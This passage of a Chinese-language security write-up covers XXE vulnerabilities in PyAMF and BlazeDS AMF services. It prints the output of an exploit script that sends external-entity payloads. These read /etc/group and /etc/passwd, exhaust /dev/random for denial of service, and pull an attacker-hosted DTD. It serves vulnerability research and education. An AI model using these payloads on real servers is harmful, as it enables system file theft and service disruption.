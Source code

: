 可以看到，常规的实体可以被成功解析，再进一步试试外部实体。

```
$ ./amf_xxe.py http://192.168.22.201:8081/ echo ext_group
[+] Target URL: 'http://192.168.22.201:8081/'
[+] Target service: 'echo'
[+] Payload 'ext_group': '<!DOCTYPE x [ <!ENTITY foo SYSTEM "file:///etc/group"> ]><x>External entity 1: &foo;</x>'
[+] Sending the request...
[+] Response code: 200
[+] Body:
........foobar/onResult..null.......i<x>External entity 1: root:x:0:
daemon:x:1:
bin:x:2:
[...]
xbot:x:1000:
</x>
[+] Done

```

这说明PyAMF确实存在XXE漏洞，然而实际的生产环境中，我们却很难找到一个接口，会将解析后的XML数据呈现在返回数据中。当然，我们也知道存在不需要回显的XXE利用办法，但是经过作者的测试发现：（1）远程的URL被禁止使用；（2）没有其它一些好用的URL协议；（3）使用了通用的报错信息，使得我们并不能从报错信息里获得有用的信息。即便如此，用这个漏洞来进行拒绝服务还是可行的，例如通过访问`/dev/random`。

```
$ ./amf_xxe.py http://192.168.22.201:8081/ wtf ext_rand
[+] Target URL: 'http://192.168.22.201:8081/'
[+] Target service: 'wtf'
[+] Payload 'ext_rand': '<!DOCTYPE x [ <!ENTITY foo SYSTEM "file:///dev/random"> ]><x>External entity 2: &foo;</x>'
[+] Sending the request...
[!] Connection OK, but a timeout was reached...
[+] Done

```

0x03 漏洞利用之二 （跑在Java web服务上的BlazeDS）
=====

lazeDS 在利用上比PyAMF要相对容易得多，这是因为：（1）我们可以使用一些java所支持的URL协议（比如http、ftp、jar）来对内部网络进行刺探；同时在利用上，我们也可以调用外部的DTD文件；（2）错误信息详细，会泄漏出相关的敏感信息；（3）java上的XXE允许通过file协议来进行列目录，这样十分有利于我们查找我们所感兴趣的文件。与PyAMF一样，我们利用的时候，并不需要知道这个AMF服务器到底注册了哪些可用的服务。

为了方便测试，我们可以在本地搭建测试环境，首先从[http://sourceforge.net/adobe/blazeds/wiki/download%20blazeds%204/](http://sourceforge.net/adobe/blazeds/wiki/download%20blazeds%204/)这里去下载2011年版本的BlazeDS，原作者下载的是turnkey格式，下载完成解压后，将解压文件放入Tomcat的bin目录中，然后执行`startup.sh`，然后你就可以通过[http://127.0.0.1:8400/samples/messagebroker/amf](http://127.0.0.1:8400/samples/messagebroker/amf)来对BlazeDS进行访问了。我自己所下载的是binary的格式，解压后就是一个war包，自己部署一下，就可以访问了。

部署完成后，就是通过利用脚本`amf_xxe.py`对服务进行测试，效果如下：

```
$ ./amf_xxe.py http://127.0.0.1:8400/samples/messagebroker/amf  foo prm_url
[+] Target URL: 'http://127.0.0.1:8400/samples/messagebroker/amf'
[+] Target service: 'foo'
[+] Payload 'prm_url': '<!DOCTYPE x [ <!ENTITY % foo SYSTEM "http://somewhere/blazeds.dtd"> %foo; ]><x>Parameter entity 3</x>'
[+] Sending the request...
[+] Response code: 200
[+] Body:
........foobar/onStatus.......
.Siflex.messaging.messages.ErrorMessage.headers.rootCause body.correlationId.faultDetail.faultString.clientId.timeToLive.destination.timestamp.extendedData.faultCode.messageId
........[Error deserializing XML type no protocol: _://root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
```